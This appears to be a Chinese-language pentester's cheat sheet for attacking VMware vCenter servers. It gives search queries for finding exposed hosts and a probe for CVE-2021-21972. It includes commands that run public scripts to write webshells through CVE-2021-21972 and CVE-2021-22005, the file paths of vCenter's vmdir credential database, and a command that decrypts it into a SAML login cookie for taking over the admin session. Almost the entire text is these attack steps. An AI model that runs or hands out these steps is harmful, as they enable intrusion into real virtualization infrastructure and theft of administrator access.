 # vCenter 漏洞

## 资产搜索
title="+ ID_VC_Welcome +"  或者  app="vmware-vCenter"

## POC
### 查看版本信息
`/sdk/vimServiceVersions.xml`

### CVE-2021-21972 任意文件上传漏洞
- 影响版本：VMware vCenter Server: 7.0/6.7/6.5
- `/ui/vropspluginui/rest/services/updateova` 响应为405表示漏洞存在
- 使用脚本工具写入webshell:`python3 CVE-2021-21972 -url`
- vCenter cookie 保存位置：  
```
LINUX : /storage/db/vmware-vmdir/data.mdb
WINDOWS : C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
```
- 使用脚本解密cookie文件：`python3 vcenter_saml_login.py -p data.mdb -t x.x.x.x`  
- 数据包添加cookie后登陆  
参考：https://github.com/NS-Sp4ce/CVE-2021-21972  
https://github.com/horizon3ai/vcenter_saml_login

### CVE-2021-22005 任意文件上传漏洞
- 影响版本：VMware vCenter Server 7.0/6.7/6.5/4.0/3.0
- 使用脚本工具写入webshell:`python3 CVE-2021-22005.py -u x.x.x.x`
参考：https://github.com/Jun-5heng/CVE-2021-22005